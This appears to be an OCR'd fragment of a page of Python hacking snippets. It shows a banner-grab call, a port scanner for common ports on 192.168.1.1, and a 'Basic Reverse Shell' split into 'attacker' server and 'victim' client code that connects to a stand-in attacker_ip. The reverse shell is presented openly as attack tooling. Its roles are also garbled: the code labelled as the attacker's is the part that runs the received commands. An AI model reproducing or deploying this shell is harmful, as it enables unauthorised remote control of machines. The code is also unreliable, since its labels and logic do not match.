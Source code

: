 ```python
# Example usage
banner = grab_banner("192.168.1.1", 22)
if banner:
    print(f"Banner: {banner}")
```

### Simple Port Scanner
```python
import socket

def scan_port(ip, port):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(1)
        result = s.connect_ex((ip, port))
        s.close()
        return result == 0
    except:
        return False

# Scan common ports
target = "192.168.1.1"
common_ports = [21, 22, 23, 25, 53, 80, 443, 445, 3389]

for port in common_ports:
    if scan_port(target, port):
        print(f"Port {port} is open")
    else:
        print(f"Port {port} is closed")
```

### Basic Reverse Shell
```python
# Server (attacker) code
import socket
import subprocess

server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server.bind(("0.0.0.0", 9999))
server.listen(5)

client, addr = server.accept()
print(f"Connection from {addr}")

while True:
    cmd = client.recv(1024).decode()
    if cmd.lower() == "exit":
        break
    output = subprocess.getoutput(cmd)
    client.send(output.encode())

client.close()
server.close()

# Client (victim) code
import socket

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect(("attacker_ip", 9999))

while True:
    cmd = input("Shell> ")
    client.send(cmd.encode())
```
